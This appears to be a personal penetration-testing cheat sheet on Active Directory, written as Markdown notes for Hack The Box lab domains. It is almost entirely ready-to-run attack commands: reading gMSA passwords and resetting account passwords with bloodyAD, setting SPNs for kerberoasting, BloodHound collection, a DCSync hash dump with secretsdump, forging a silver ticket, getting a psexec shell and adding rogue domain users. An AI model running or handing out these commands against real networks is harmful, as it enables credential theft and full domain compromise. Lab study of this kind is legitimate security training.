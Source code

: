 ```yaml
---
description: >-
  Active Directory (AD) is a Microsoft service that manages and organizes users,
  devices, and resources in a network. It handles authentication, security, and
  access control.
---
```


# Active Directory

### <mark style="color:yellow;">BloodyAd.py</mark>

```powershell
# ReadGMSAPassword
bloodyAD.py --host dc01.vintage.htb -d "VINTAGE.HTB" -k get object 'GMSA01$' --attr msDS-ManagedPassword 

# Add to group
bloodyAD.py --host dc01.vintage.htb -d "VINTAGE.HTB" -k add groupMember "SERVICEMANAGERS" "P.Rosa"

# Change password
bloodyAD.py --host "dc01.vintage.htb" --dc-ip "10.10.11.45" -d "vintage.htb" -k set password "SVC_SQL" "pass@123"

# Enable account
bloodyAD.py -d ZENCORP.HTB --host dc01.zencorp.htb -k remove uac SVC_SQL -f ACCOUNTDISABLE
```

### <mark style="color:yellow;">Set SPN - Service Principal Name</mark>

```powershell
# Using kinit
KRB5CCNAME=/home/kali/bloodyAD/jjones.ccache python bloodyAD.py --host dc01.zencorp.htb -d 'ZENCORP.HTB' -u jjones -p "pass123" -k set object 'SVC_SQL' serviceprincipalname -v 'zen/notlegit'

# Using auth
bloodyAD.py --host dc01.zencorp.htb -d 'ZENCORP.HTB' -u jjones -p "pass123" set object 'SVC_SQL' serviceprincipalname -v 'zen/notlegit'

# Powershell
Set-ADUser -Identity svc_sql -Add @{servicePrincipalName="cifs/x"}
```

### <mark style="color:yellow;">Enable account</mark>

```powershell
# Using kinit
bloodyAD.py -d ZENCORP.HTB --host dc01.zencorp.htb -k remove uac SVC_SQL -f ACCOUNTDISABLE
```

### <mark style="color:yellow;">Bloodhound</mark>

```powershell
# Run sharphound on target
.\SharpHound.exe

# Run from host
bloodhound-python -u 'username' -p 'password' -d ZENCORP.LOCAL -ns 10.10.10.175 -c All
```

### <mark style="color:yellow;">DCSync attack</mark>

```powershell
# If user has DCSync Rights or DS-Replication-Get-Changes-All
secretsdump.py -outputfile hashes -just-dc ZENCORP/username@172.12.52.51
```

### <mark style="color:yellow;">Silver ticket</mark>

```powershell
# Creating the ticket
python ticketer.py -nthash 1048894cfad799f435b2f14452421b3d -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain dc.domain.htb -dc-ip 127.0.0.1 -spn TEST/dc.domain.htb administrator

# Set environment variable
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@dc.domain.htb

# Check if needed to add to hosts
127.0.0.1 dc.domain.htb domain.htb
```

### <mark style="color:yellow;">Get a shell</mark>

```powershell
psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

### <mark style="color:yellow;">Add user to group or localgroup</mark>

```powershell
# Add new user
net user mczen pass@123 /add /domain

# Add to groups
net group "Exchange Windows Permissions" mczen /add

# Add localgroup win-rm
net localgroup "Remote Management Users" mczen /add
```
